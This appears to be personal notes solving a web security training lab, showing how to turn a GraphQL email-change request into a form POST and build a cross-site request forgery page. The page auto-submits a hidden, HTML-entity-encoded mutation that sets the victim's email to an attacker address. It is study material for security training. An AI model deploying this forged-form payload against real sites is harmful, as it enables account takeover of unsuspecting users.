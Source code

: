 When we make the email change, we need to take the request and send to repeater.
There convert the request into a POST request with a Content-Type of x-www-form-urlencoded. Change two time to get the post request with Content....
![[Pasted image 20250209215555.png]]

Then with the next query added in the html (encoded as HTML). We are able to see that we can change the email through a POST request

![[Pasted image 20250209220253.png]]

Then we need to create a web for the victim. 
```html
<html>
    <body>       
        <form action="https:///0a7c006d04cf71e3803c035a00800000.web-security-academy.net/graphql/v1" method="post">
            <input type="hidden" name="query" value="&#x20;&#x6d;&#x75;&#x74;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x20;&#x43;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x21;&#x29;&#x20;&#x7b;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x20;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x29;&#x20;&#x7b;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x7d;&#x7d;">
<input type="hidden" name="operationName" value="changeEmail">
            <input type="hidden" name="variables" value="&#x7b;&#x22;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x22;&#x3a;&#x7b;&#x22;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x22;&#x3a;&#x22;&#x70;&#x65;&#x70;&#x65;&#x40;&#x68;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x2e;&#x63;&#x6f;&#x6d;&#x22;&#x7d;&#x7d;">

<input type="submit" value="Submit request" />
        </form>
<script> 
history.pushState(' ', ' ', '/');
document.forms[0].submit();
</script >      
    </body>
</html>

These are the 3 input values that a put, which befor I encoded in html

mutation changeEmail($input: ChangeEmailInput!) {changeEmail(input: $input) {email}}
operationName=changeEmail
variables={"input":{"email":"pepe@hacker.com"}}

```